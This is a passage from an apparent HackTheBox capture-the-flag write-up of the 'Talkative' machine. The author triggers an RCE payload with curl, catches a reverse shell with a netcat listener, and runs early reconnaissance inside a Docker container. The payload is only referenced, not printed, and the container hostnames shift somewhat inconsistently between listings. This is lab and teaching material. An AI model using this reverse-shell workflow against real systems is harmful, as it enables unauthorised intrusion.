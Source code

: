![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174742.png)

- **Trigger the RCE payload:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|17:49:41(HKT)]
└> curl http://talkative.htb/

```

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|17:46:01(HKT)]
└> nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.155] 43822
[...]
www-data@0de8022816f3:/var/www/talkative.htb/bolt/public$ whoami; hostname
www-data
0de8022816f3
www-data@0de8022816f3:/var/www/talkative.htb/bolt/public$ ls -lah /.dockerenv
-rwxr-xr-x 1 root root 0 Aug 10 06:58 /.dockerenv
```

I'm `www-data` in a Docker container!

### `172.17.0.10` Docker `www-data` to host saul

Now we're in a different Docker container that we previously in the Jamovi one. (You can tell that because of different hostname.)

**Since this is a Docker container, all binaries are very limited:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ip a
bash: ip: command not found
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ifconfig
bash: ifconfig: command not found
```

**Find current Docker container IP address:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ hostname -i
172.17.0.10
```
